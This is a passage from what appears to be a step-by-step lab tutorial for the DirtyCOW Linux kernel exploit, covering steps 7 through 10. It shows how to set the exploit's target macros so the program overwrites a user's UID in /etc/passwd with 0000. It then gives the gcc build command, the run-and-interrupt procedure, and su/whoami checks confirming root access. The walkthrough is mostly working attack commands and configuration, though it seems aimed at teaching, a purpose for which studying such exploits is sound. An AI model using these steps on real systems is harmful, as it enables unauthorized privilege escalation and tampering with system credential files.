    

    </details>

&nbsp;

7. Arrow down to the Target Variable Declarations section. You need to change the three variables to very specific settings.

    - for `TARGET_FILENAME`, set it to "/etc/passwd"
    - for `TARGET_CONTENT`, set it to "0000"
    - for `TARGET_OFFSET`, set it to the offset you calculated in step 5. No quotes here.


    ```
    #define TARGET_FILENAME "/etc/passwd"

    /* what we want to write to the target (str) */
    #define TARGET_CONTENT "0000"

    /* the byte offset of the starting byte we want to write to (int) */ 
    #define TARGET_OFFSET 2296
    ```

    **Be sure to save your file as `exploit.c`**

     <details><summary>Toggle for Screenshot</summary>
    
    

    </details>
    
&nbsp;

8. Time to compile the code. Using the gcc complier, you will create a new binary, called `exploit` that you will be able to execute. Make sure you are in the same directory as the exploit.c script, or provide the full filepath to be able to edit it in this way.

    ```
    gcc -o exploit exploit.c -lpthread
    ```

     <details><summary>Toggle for Screenshot</summary>
    
    

    </details>
    
&nbsp;

9. You should now have a new binary called `exploit` in your current directory. When you are ready, execute the script and let it run for 3 or 4 seconds. You will need to manually kill the program with `ctrl + c`:

    ```
    ./exploit

    <wait a few seconds...>

    ctrl + c
    ```

     <details><summary>Toggle for Screenshot</summary>
    
    

    </details>
    
&nbsp;

10. Time to look at `/etc/passwd` and see if it worked! If it did, your user should now have a UID of 0000 and if you logout/login and switch (`su`) to that user, and run `whoami` you should now be root!

    ```
    tail -n 1 /etc/passwd

    su userx

    <put in the password you created>

    whoami
    ```

     <details><summary>Toggle for Screenshot</summary>
    
    

    </details>
    
<br>

**Congratulations, you have successfully elevated your priviledges with DirtyCOW!**
